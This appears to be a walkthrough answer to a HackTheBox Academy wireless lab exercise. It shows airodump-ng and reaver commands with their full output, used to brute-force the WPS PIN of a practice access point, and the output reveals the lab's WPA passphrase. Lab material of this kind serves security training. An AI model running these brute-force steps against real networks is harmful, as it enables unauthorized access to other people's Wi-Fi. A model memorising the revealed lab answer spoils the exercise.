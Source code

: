 ### "Perform a brute-force attack on the WiFi network named HackTheBox\_Secure. What is the WPS PIN?"

Students will reuse the previously established RDP session and will use `airodump-ng` to verify that the access point `HackTheBox_Secure` is not locked:

Code: shell

```shell
airodump-ng mon0 --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

 CH  1 ][ Elapsed: 6 s ][ 2024-11-04 09:05 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 16:CF:63:BA:5D:45  -28      104        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheBox_Secure                                 

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```

Next, students will use again `reaver` to brute-force the WPS pin of the `HackTheBox_Secure` wireless network:

Code: shell

```shell
reaver -i mon0 -c 1 -b 16:CF:63:BA:5D:45 -v
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -c 1 -b 16:CF:63:BA:5D:45 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 16:CF:63:BA:5D:45
[+] Received beacon from 16:CF:63:BA:5D:45
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)
[+] Trying pin "00005678"
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)
[+] Trying pin "01235678"
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
[+] Trying pin "11115670"
[+] Associated with 16:CF:63:BA:5D:45 (ESSID: HackTheBox_Secure)
[+] WPS PIN: '{hidden}'
[+] WPA PSK: 'L0cK!nG_Th3_AP'
[+] AP SSID: 'HackTheBox_Secure'
```
